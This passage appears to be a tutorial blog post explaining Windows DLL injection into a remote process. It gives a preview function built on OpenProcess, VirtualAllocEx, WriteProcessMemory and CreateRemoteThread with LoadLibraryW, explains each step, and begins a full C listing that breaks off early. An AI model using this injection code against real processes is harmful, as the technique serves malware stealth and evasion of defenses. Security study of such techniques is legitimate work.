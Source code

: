 Since the `LoadLibraryW` function is something that loads a DLL into `CURRENT PROCESS` , we can’t run it directly as it will load the DLL into our process memory. In order to “Inject” a DLL , we need to load that DLL into another process memory which can be done by first getting the handle to the process using `OpenProcess` and then create a thread which will run the `LoadLibraryW` function in that process and for that we need to get the address of the `LoadLibraryW` function which is present in `kernel32.dll`

As with injection , the steps are similar to that of Remote Process Injection. So here’s a preview of the code (full code afterwards)

```c
BOOL InjectDll(...) {
  HANDLE pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
  HANDLE k32Handle = GetModuleHandleA("Kernel32.dll");
  PVOID fnLoadLibrary = GetProcAddress(k32Handle, "LoadLibraryW");
  PVOID pBuf = VirtualAllocEx(pHandle, pBuf, pSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	WriteProcessMemory(pHandle, pBuf, DllPath, pSize, &bWrote)
  HANDLE tHandle = CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)fnLoadLibrary, pBuf, 0, &tid);
  WaitForSingleObject(tHandle, INFINITE);		
}
```

## Explanation

Alright, so as I said, we got the handle to the process first and then we try to find the address for the `LoadLibraryW` function which is present inside `kernel32.dll` so we first get a handle to that DLL using `GetModuleHandleA` and then find the address of the function using `GetProcAddress` , then we write the path to DLL into a memory space in that process, and then finally call the function with the DLL path as parameter.

Note that since the function is already executable and we are just allocating memory to write a parameter (DLL path), we don’t need to have `PAGE_EXECUTE_READWRITE` access since we wont be executing that part of memory either way. Ill show this later by updating the memory protection to `PAGE_READ` and we still would be able to load the DLL.

## Injecting DLL into a Remote Process

Here’s the full code

```c
#include <stdio.h>
#include <Windows.h>

#define okay(msg, ...) printf("[+] " msg "\n", ##__VA_ARGS__)
#define info(msg, ...) printf("[*] " msg "\n", ##__VA_ARGS__)
#define warn(msg, ...) printf("[-] " msg "\n", ##__VA_ARGS__)
#define cool(msg, ...) printf("[>] " msg "\n", ##__VA_ARGS__)

BOOL InjexDll(LPCWSTR DllPath, DWORD pid, SIZE_T pSize) {
    
    DWORD   tid = 0;
    SIZE_T  bWrote = 0;
    PVOID   pBuf = NULL;
    PVOID   fnLoadLibrary = NULL;
    HANDLE  tHandle = NULL;
    HANDLE  pHandle = NULL;
    HMODULE k32Handle = NULL;

    pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (pHandle == NULL) {
        warn("Failed to Open Process ; Got  @--0x%x", GetLastError());
        return FALSE;
    }
    info("Opened Handle to the process %d  @--0x%x", (int)pid, pHandle);

```